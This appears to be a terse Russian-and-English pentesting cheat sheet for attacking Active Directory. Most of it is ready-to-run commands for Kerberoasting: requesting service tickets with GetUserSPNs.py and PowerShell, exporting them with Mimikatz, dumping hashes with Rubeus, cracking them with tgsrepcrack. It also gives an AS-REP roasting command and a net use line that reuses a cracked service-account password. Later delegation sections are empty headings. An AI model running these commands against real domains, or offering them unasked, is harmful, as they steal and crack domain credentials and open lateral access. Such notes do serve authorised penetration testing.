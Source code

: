 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T DomainName -Q \*/\*  
    - загружаем билеты в память для дальнейних действий.  
    - Add-Type -AssemblyName System.IdentityModel  
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
    - Проверяем, что билет загружен в память: klist  
    - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
        - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
    - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting (Impacket):  
For attack need to know username and flag 'do not require preauth'

**Get users NTLMv2 hash**: GetNPUsers.py -userfile [file] -outputfile [output filename] -dc-ip [DC IP] domain/


## Unconstrained Delegation:  


## Constrained Delegation:  


## Alternate Service Name:  


## 
